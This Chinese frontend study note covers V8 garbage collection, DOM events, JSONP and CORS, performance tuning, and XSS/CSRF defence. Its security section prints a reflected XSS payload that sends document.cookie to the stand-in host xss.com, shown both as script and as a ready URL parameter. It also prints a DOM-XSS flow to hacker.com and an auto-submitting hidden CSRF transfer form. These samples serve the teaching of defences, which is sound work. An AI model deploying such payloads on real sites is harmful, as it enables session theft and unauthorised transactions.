大多数的对象最开始都会被分配在新生代，该存储空间相对较小，只有几十 MB，分为两个空间：from 空间和 to 空间。

程序中声明的对象首先会被分配到 from 空间，当进行垃圾回收时，会先将 from 空间中存活的对象（存活对象可以理解为被引用的对象）复制到 to 空间进行保存，对未存活的对象空间进行回收。当复制完成后，from 空间和 to 空间进行调换，to 空间会变为新的 from 空间，原来的 from 空间则变为 to 空间，这种算法称之为 **“Scavenge”。**  再有新的对象，就会继续这样操作，新的对象放到from区域，再垃圾回收。

同时，副垃圾回收器还会采用**对象晋升策略**，也就是移动那些经过两次垃圾回收依然还存活的对象到老生代中。

新生代的内存回收频率很高、速度也很快，但空间利用率较低，因为会让一半的内存空间处于“闲置”状态。

#### 老生代—— 主垃圾回收器

新生代中多次回收仍然存活的对象会被转移到空间较大的老生代。因为老生代空间较大，如果回收方式仍然采用 Scanvage 算法来频繁复制对象，那性能开销就太大了。

所以老生代采用的是另一种 **“标记清除”（Mark-Sweep）** 的方式来回收未存活的对象空间。

这种方式主要分为标记和清除两个阶段。标记阶段会遍历堆中所有对象，并对**可以访问到的对象进行标记**；清除阶段则是对未标记对象的空间进行回收。

由于标记清除不会对内存一分为二，所以不会浪费空间。但是进行过标记清除之后的内存空间会产生很多不连续的碎片空间，这种不连续的碎片空间中，在遇到较大对象时可能会由于空间不足而导致无法存储的情况。

为了解决内存碎片的问题，提高对内存的利用，还需要使用到**标记整理（Mark-Compact） 算法。** 标记整理算法相对于标记清除算法在回收阶段进行了改进，标记整理对待未标记的对象并不是立即进行回收，而是将存活的对象移动到一边，然后再清理。当然这种移动对象的操作相对而言是比较耗时的，所以执行速度上，比标记清除要慢。

##### 全停顿

不过由于JavaScript 是运行在主线程之上的，一旦执行垃圾回收算法，都需要将正在执行的JavaScript 脚本暂停下来，待垃圾回收完毕后再恢复脚本执行。如果老生代存放的活动对象多，处理耗时长（**全停顿**），为减少卡顿的时间，引入**增量标记**的概念。先标记堆内存中的一部分对象，然后暂停，将执行权重新交给JS主线程，待主线程任务执行完毕后再从原来暂停标记的地方继续标记，直到标记完整个堆内存。

## 附录

### DOM相关

DOM，文档对象模型，提供了对文档的结构化的表述。

#### DOM事件流

W3C标准约定了一个事件的传播过程分为三个阶段：

1. 事件捕获阶段
2. 目标阶段
3. 事件冒泡阶段

当事件被触发时，事件捕获阶段：事件从document穿过一层层到目标节点，事件会被目标节点接收，事件冒泡阶段：一层层回到document。

#### 事件对象

##### e.currentTarget

记录了当前事件正在经过哪一个目标元素，因为事件传播是层层穿梭的。

> 如果事件处理绑定的元素，与具体的触发元素一致，那么函数中的this、e.currentTarget、e.target三者的值是一样的。

##### e.target

触发事件的具体元素，是事件的真正来源。

> 就算事件处理程序没有绑定在目标元素上、而是绑定在了目标元素的父元素上，只要它是由内部的目标元素冒泡到
> 父容器上触发的，那么我们仍然可以通过 target 来感知到目标元素才是事件真实的来源。

##### e.preventDefault

这个方法用于阻止特定事件的默认行为，如 a 标签的跳转等。

```js
e.preventDefault()
```

##### e.stopPropagation

不再派发事件到其他节点。

这个方法用于终止事件在传播过程的捕获、目标处理或冒泡阶段进一步传播。调用该方法后，该节点上处理该事件
的处理程序将被调用，事件不再被分派到其他节点。

```js
e.stopPropagation()
```

### 跨域

浏览器遵循同源策略，所谓同源，指的是协议、域名、端口号都相同，非同源存在很多限制，比如限制Ajax请求。当浏览器向目标URL发送Ajax请求时，只要当前URL与目标URL不同源，则产生跨域，被称为跨域请求。跨域请求一般会被浏览器所拦截。

> img、script、link、video、iframe、audio等标签不受同源政策的限制

#### JSONP

原理：`script`标签跨域引用`JS`文件不会受到浏览器同源策略的限制。

优势：兼容性好，IE低版本不能用CORS，但可以使用JSONP

缺点：只支持GET

```js
const JSONP=(url,params,callbackName="callbackName")=>{
    const generateUrl=()=>{
        let dataStr="";
        for(let key in params){
            dataStr+=`${key}=${params[key]}&`
        }
        dataStr+=`callbackName=${callbackName}`
        return `${url}?${dataStr}`
    }
    return new Promise((resolve,reject)=>{
        let scriptEl=document.createElement("script");
        scriptEl.src=generateUrl();
        console.log(generateUrl())
        window[callbackName]=(data)=>{
            resolve(data);
            document.body.removeChild(scriptEl)
        }
    })
}

JSONP("http://suggest.taobao.com/sug",{code:"utf-8",q:"123"}).then((data)=>{console.log(data)})
```

#### CORS

> **CORS 需要浏览器和后端同时支持。IE 8 和 9 需要通过 XDomainRequest 来实现**
> 
> 浏览器会自动进行 CORS 通信，实现 CORS 通信的关键是后端。只要后端实现了 CORS，就实现了跨域。
> 
> **服务端设置 Access-Control-Allow-Origin 就可以开启 CORS**。 该属性表示哪些域名可以访问资源，如果设置通配符则表示所有网站都可以访问资源。

跨域资源共享，利用http头部字段让浏览器与服务器进行沟通，从而决定请求是否成功。

分为简单请求与非简单请求：

> 两者的区别就是对请求头和请求方法作了限制。

**简单请求**

+ GET/POST/HEAD

+ Content-Type 的值仅限于下列三者之一：
  
  - text/plain
  - multipart/form-data
  - application/x-www-form-urlencoded

对于简单请求，在请求发出后，会自动的在头部字段添加`origin`，说明请求的源。服务器在拿到请求后，在回应时需要设置`Access-Control-Allow-Origin`字段，说明可以访问该资源的源，若`origin`在此范围内，就可以拿到该资源。

```js
// console.log(request.headers["referer"])
response.setHeader("Access-Control-Allow-Origin","允许的源")
```

**非简单请求**

对于非简单请求，会先发一条`options`请求作为预检请求，添加了 1 个请求头部字段 `Access-Control-Request-Method`，值为跨域请求所使用的请求方法；如果这个跨域请求还有其他字段，还会在请求头部添加了` Access-Control-Request-Headers` 字段，值为跨域请求添加的请求头部字段。

在服务端收到预检请求后，除了在响应头部添加 `Access-Control-Allow-Origin` 字段之外，至少还会添加` Access-Control-Allow-Methods` 字段来告诉浏览器服务端允许的请求方法，并返回 204 状态码。

在上面的例子中，服务端还根据浏览器的 `Access-Control-Request-Headers` 字段回应了一个 `Access-Control-Allow-Headers` 字段，来告诉浏览器服务端允许的请求头部字段。

+ 在预检请求的响应返回后，若请求不满足响应头的条件，则触发`XMLHttpRequest`的`onErrror`方法；

+ 若满足响应头条件，则正常发送CORS请求，同简单请求一样，浏览器自动加上`origin`字段，服务端响应返回`Access-Control-Allow-Origin`

# 

### 性能优化

提到性能优化可能会想到精灵图、域名分片之类的。要有条理的来说这些。

从输入URL到渲染，在网络层面会经历：

+ DNS解析
+ TCP连接
+ HTTP请求/响应

#### 请求

前两者我们没办法做什么，对于第三点，我们可以优化的点在于：

- 减少请求次数
- 减少单次请求所花费的时间

##### 精灵图、内嵌的CSS/JS、base64图片

对于减少请求次数来说，我们可以用精灵图、内嵌的CSS/JS、base64图片

> base64图片是一种编码方式，可以直接写进css/html，浏览器可以识别，而不用再去请求一次图片。
> 
> Base64 并非一种图片格式，而是一种编码方式。Base64 和雪碧图一样，是作为小图标解决方案而存在的。
> 
> 每次加载图片，都是需要单独向服务器请求这个图片对应的资源的——这也就意味着一次 HTTP 请求的开销。
> 
> **Base64 是一种用于传输 8Bit 字节码的编码方式，通过对图片进行 Base64 编码，我们可以直接将编码结果写入 HTML 或者写入 CSS，从而减少 HTTP 请求的次数。**
> 
> 可以直接用这个字符串替换掉上文中的链接地址。你会发现浏览器原来是可以理解这个字符串的，它自动就将这个字符串解码为了一个图片，而不需再去发送 HTTP 请求。
> 
> > 推荐的是利用 webpack 来进行 Base64 的编码——webpack 的 [url-loader](https://link.juejin.cn/?target=https%3A%2F%2Fgithub.com%2Fwebpack-contrib%2Furl-loader) ，它除了具备基本的 Base64 转码能力，还可以结合文件大小，帮我们判断图片是否有必要进行 Base64 编码。

##### 开启gzip

对于减少单次请求所花费的时间，我们可以开启gzip。

在你的 request headers 中加上这么一句：

```
accept-encoding:gzip
```

压缩文件可以减少文件下载时间，让用户体验性更好。

得益于 webpack 和 node 的发展，现在压缩文件已经非常方便了。

在 webpack 可以使用如下插件进行压缩：

- JavaScript：UglifyPlugin
- CSS ：MiniCssExtractPlugin
- HTML：HtmlWebpackPlugin

其实，我们还可以做得更好。那就是使用 gzip 压缩。可以通过向 HTTP 请求头中的 Accept-Encoding 头添加 gzip 标识来开启这一功能。当然，服务器也得支持这一功能。

gzip 是目前最流行和最有效的压缩方法。举个例子，我用 Vue 开发的项目构建后生成的 app.js 文件大小为 1.4MB，使用 gzip 压缩后只有 573KB，体积减少了将近 60%。

附上 webpack 和 node 配置 gzip 的使用方法。

**下载插件**

```
npm install compression-webpack-plugin --save-dev
npm install compression
```

**webpack 配置**

```
const CompressionPlugin = require('compression-webpack-plugin');

module.exports = {
  plugins: [new CompressionPlugin()],
}
```

**node 配置**

```
const compression = require('compression')
// 在其他中间件前使用
app.use(compression())
```

#### CSS 放在文件头部，JavaScript 文件放在底部

所有放在 head 标签里的 CSS 和 JS 文件都会堵塞渲染（CSS 不会阻塞 DOM 解析、JS阻塞解析）。如果这些 CSS 和 JS 需要加载和解析很久的话，那么页面就空白了。所以 JS 文件要放在底部，等 HTML 解析完了再加载 JS 文件。

那为什么 CSS 文件还要放在头部呢？

因为先加载 HTML 再加载 CSS，会让用户第一时间看到的页面是没有样式的、“丑陋”的，为了避免这种情况发生，就要将 CSS 文件放在头部了。

另外，JS 文件也不是不可以放在头部，只要给 script 标签加上 defer 属性就可以了，异步下载，延迟执行。

> defer 掘金中用的多，作用是延迟：当浏览器遇到带有 defer 属性的 script 时，获取该脚本的网络请求也是异步的，不会阻塞浏览器解析 HTML，一旦网络请求回来之后，**如果此时 HTML 还没有解析完，浏览器不会暂停解析并执行 JS 代码，而是等待 HTML 解析完毕再执行 JS 代码**
> 
> async 七牛用的多，异步，当浏览器遇到带有 async 属性的 script 时，请求该脚本的网络请求是异步的，不会阻塞浏览器解析 HTML，一旦网络请求回来之后，**如果此时 HTML 还没有解析完，浏览器会暂停解析，先让 JS 引擎执行代码，执行完毕后再进行解析**
> 
> > 如果存在多个 defer script 标签，浏览器（IE9及以下除外）会保证它们按照在 HTML 中出现的顺序执行，不会破坏 JS 脚本之间的依赖关系。

#### 域名分片

浏览器限制每个域的活动连接数（Chrome针对一个域名可以开8个TCP连接），因此从一个域提供所有必需的资源可能会变慢，因为需要按顺序下载资源。使用域名分片后，所需的下载可以来自多个域，从而使浏览器可以同时下载所需的资源。比如淘宝。

#### 静态资源放到CDN

内容分发网络（CDN）是一组分布在多个不同地理位置的 Web 服务器。我们都知道，当服务器离用户越远时，延迟越高。CDN 就是为了解决这一问题，在多个位置部署服务器，让用户离服务器更近，从而缩短请求时间。

CDN 的核心点有两个，一个是**缓存**，一个是**回源**。

这两个概念都非常好理解。“缓存”就是说我们把资源 copy 一份到 CDN 服务器上这个过程，“回源”就是说 CDN 发现自己没有这个资源（一般是缓存的数据过期了），转头向根服务器（或者它的上层服务器）去要这个资源的过程。

所谓“静态资源”，就是像 JS、CSS、图片等**不需要业务服务器进行计算即得的资源**。而“动态资源”，顾名思义是需要**后端实时动态生成的资源**，较为常见的就是 JSP、ASP 或者依赖服务端渲染得到的 HTML 页面。

当用户访问一个网站时，如果没有 CDN，过程是这样的：

1. 浏览器要将域名解析为 IP 地址，所以需要向本地 DNS 发出请求。
2. 本地 DNS 依次向根服务器、顶级域名服务器、权限服务器发出请求，得到网站服务器的 IP 地址。
3. 本地 DNS 将 IP 地址发回给浏览器，浏览器向网站服务器 IP 地址发出请求并得到资源。


如果用户访问的网站部署了 CDN，过程是这样的：

> 区别就是变成向负载均衡系统发送网络请求，负载均衡系统会根据浏览器请求的资源和地址，选出最优的缓存服务器发回给浏览器。浏览器再根据负载均衡系统发回的地址重定向到缓存服务器。

1. 浏览器要将域名解析为 IP 地址，所以需要向本地 DNS 发出请求。
2. 本地 DNS 依次向根服务器、顶级域名服务器、权限服务器发出请求，得到全局负载均衡系统（GSLB）的 IP 地址。
3. 本地 DNS 再向 GSLB 发出请求，GSLB 的主要功能是根据本地 DNS 的 IP 地址判断用户的位置，筛选出距离用户较近的本地负载均衡系统（SLB），并将该 SLB 的 IP 地址作为结果返回给本地 DNS。
4. 本地 DNS 将 SLB 的 IP 地址发回给浏览器，浏览器向 SLB 发出请求。
5. SLB 根据浏览器请求的资源和地址，选出最优的缓存服务器发回给浏览器。
6. 浏览器再根据 SLB 发回的地址重定向到缓存服务器。
7. 如果缓存服务器有浏览器需要的资源，就将资源发回给浏览器。如果没有，就向源服务器请求资源，再发给浏览器并缓存在本地。


> > Cookie 是紧跟域名的。同一个域名下的所有请求，都会携带 Cookie。大家试想，如果我们此刻仅仅是请求一张图片或者一个 CSS 文件，我们也要携带一个 Cookie 跑来跑去（关键是 Cookie 里存储的信息我现在并不需要），这是一件多么劳民伤财的事情。Cookie 虽然小，请求却可以有很多，随着请求的叠加，这样的不必要的 Cookie 带来的开销将是无法想象的……
> 
> 同一个域名下的请求会不分青红皂白地携带 Cookie，而静态资源往往并不需要 Cookie 携带什么认证信息。把静态资源和主页面置于不同的域名下，完美地避免了不必要的 Cookie 的出现！

#### 升级HTTP2

### 网络安全

#### 跨站脚本（Cross Site Scripting，XSS）

XSS指的是**攻击者在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。**

非持久型都是引导用户点击链接，进行攻击；持久型是将攻击代码上传给服务器了。

##### 反射型

**反射型 XSS** 也叫非持久型 XSS，**是指攻击者将恶意代码拼写在 URL 中提交给服务端，服务端返回的内容，就是带上了这段 XSS 代码的html，最后导致浏览器执行了这段恶意代码，会将cookie等信息发给黑客**



服务端采用 express.js 并使用 ejs 进行服务端渲染，服务端接收到地址栏 search 参数时，会将其传入到模板的 search 变量中，并生成 HTML。

```
<!-- ejs 模板 --> 
你搜索了：<%-search%>
// 服务端处理逻辑 
app.get('/reflection', function(req, res){ 
  res.render('reflection', { 
    search: req.query.search 
  }); 
})
```

比如有攻击者想获取用户 cookie，编写了下面一段 JavaScript 代码。通过动态创建一个 script 标签，然后把当前 cookie 发送给目标地址 xss.com。（插入了恶意脚本代码）

```
<script> 
s=document.createElement('script'); 
s.src=`xss.com?cookie=${document.cookie}`; 
document.head.append(s) 
</script>
```

那么就可以将代码进行 URI 转码之后，赋值给 URL 参数 search，把这个参数添加到对应的网址并发送给对应的用户即可获取它的 cookie。

```
?search=<script>var s=document.createElement('script');s.src=`xss.com?cookie=${document.cookie}`;document.head.append(s);</script>
```

当然这种赤裸裸的发送很容易引起用户警觉，所以一般会转为短网址并且包装成一些带有诱导性文字的超链接，引诱用户点击访问，一旦用户点击就不知不觉地向攻击者发送了自己的 cookie。

##### DOM型

反射型的XSS一般是在前后端一体的网页应用中，服务端逻辑会改变最终的网页代码。

DOM 型 XSS 可以看作一种特殊的反射型 XSS，它也是一种非持久型 XSS，不过相对于反射型 XSS 而言它**不需要经过服务端**。比如在上面的例子中，如果把解析 URL 参数 search 的逻辑放在前端页面进行，那么攻击类型就属于 DOM 型。

```js
<script> 
  var search = location.search.replace('?search=', '') 
  document.write("你搜索了 :" + decodeURI(search)) 
</script>
```

+ 引导用户点击：http://server.com/index.php?search=<script></script>

+ 浏览器拼接search参数并修改DOM

+ 浏览器请求：http://hacker.com?cookie=document.cookie

##### 存储型

存储型和反射型相比破坏性更大，因为存储型的恶意代码存储在数据库等地方，每次访问页面都会触发 XSS。比如一些网站允许用户设置一段个性签名，并且显示在个人主页，攻击者就可以在个性签名中输入恶意代码并提交到服务端，如果这段代码没有进行任何处理直接存储到数据库，那么其他用户访问这个个人主页的时候都会执行这段恶意代码。

> 或者我们在评论区输入一段脚本，传到服务器，实际上这个页面就会包含攻击代码了，这样用户请求页面时，可能就会执行恶意代码，发送cookie给黑客。

##### XSS防护

###### 参数校验

**参数校验。** 对于 HTTP 请求的 URL 参数和请求体 payload 的数据进行校验，比如我们接收的数据是用户年龄，那么在后端，需要判断一下数据是否是 Number，对于不符合校验规则的数据及时抛出错误。

###### 字符转义

**字符转义。** 对于一些特殊符号，比如“<”“>”“&”“"”“'”“/”，我们需要对其进行转义，后端接收这些代码时候的转义存储，前端在显示的时候，再把它们转成原来的字符串进行显示。

对于用户输入的字符串内容，不要使用 eval、new Function 等动态执行字符串的方法，也不要将这些字符串通过 innerHTML、outerHTML、document.write() 方式直接写到 HTML 中。对于非客户端 cookie，比如保存用户凭证的 session，将其设置为 http only，避免前端访问 cookie。

#### 跨站请求伪造（Cross-site Request Forgery，CSRF/XSRF）

利用用户的认证信息发起跨站请求。

CSRF 攻击就是在受害者毫不知情的情况下以受害者名义伪造请求发送给受攻击站点，从而在并未授权的情况下执行在权限保护之下的操作。和 XSS 攻击方式相比，CSRF 并不需要直接获取用户信息，只需要“借用”用户的登录信息相关操作即可，隐蔽性更强。

##### CSRF 攻击示例

下面以一个示例来说明 CSRF 的攻击原理。

比如，用户 A 在银行有一笔存款，通过对银行的网站发送请求：http://bank.com/withdraw?amount=100&to=B。

可以让 A 把 100 的存款转到 B 的账号下。通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，验证成功后代码用户 A 已经成功登录。

攻击者 C 就可以通过替换 URL 中的参数把钱转入自己的账户中，但这个请求必须由 A 发出。所以他先自己做一个网站，在网站中放入如下代码：

```

```

然后通过广告等方式诱使 A 来访问他的网站，当 A 访问该网站时，浏览器就会附带上 cookie 发出的转账请求。大多数情况下，该请求可能会失败，因为他要求 A 的认证信息。但是，如果 A 当时恰巧刚访问这个网站不久，他的浏览器与网站之间的 session 尚未过期，浏览器的 cookie 中含有 A 的认证信息。那么此时这个请求就会成功，钱将从用户 A 的账号转移到攻击者 C 的账号，而 A 对此毫不知情。

即使日后 A 发现账户钱少了，去银行查询转账记录，也只能发现确实有一个来自他本人的合法请求转移了资金，找不到被攻击的痕迹。

当然真实场景下不会通过 GET 请求去提交操作，而是采用 POST 请求。但即时如此，攻击者也可以在页面中嵌入隐藏表单并通过脚本来触发操作。

比如像下面的代码，创建了两个表单字段，分别为 amount 和 to，然后自动执行 JavaScript 脚本提交表单。

```
<form action="http://bank.com/withdraw" method="POST""> 
    <input type="hidden" name="amount" value="100" /> 
    <input type="hidden" name="to" value="C" /> 
</form> 
<script> document.forms[0].submit(); </script>
```

##### CSRF 防御手段

通过前面的例子可以看到 CSRF 大多来自第三方网站，所以浏览器会在请求头带上 Referer 字段，服务器可以判断 Referer 来拒绝不受信任的源发出的请求。

由于攻击者在大多数情况下利用 cookie 来通过验证，所以可以在请求地址中添加其他头部字段，比如 token，服务端只有接收到正确的 token 后才响应正确的内容。

攻击者是在不知情的情况下，自动发起恶意的请求，那么可以通过用户确认来防御攻击，比如加入图形或短信验证码让用户输入，确认该操作是用户本人发起的。但是加入验证码会影响用户的体验，所以验证码不能频繁使用。

> CSRF 是通过自动提交表单的形式来发起攻击的。所以，在前面转账的例子中，黑客可以通过抓包分析出 http://bank.com/transfer 这个接口所需要的参数，从而构造对应的 form 表单。因此，我们只需要在这个接口中，加入一个黑客无法猜到的参数，就可以有效防止 CSRF 了。这就是 CSRF Token 的工作原理。
> 因为 CSRF Token 是每次用户正常访问页面时，服务端随机生成返回给浏览器的。所以，每一次正常的转账接口调用，都会携带不同的 CSRF Token。黑客没有办法进行提前猜测，也就没有办法构造出正确的表单了。
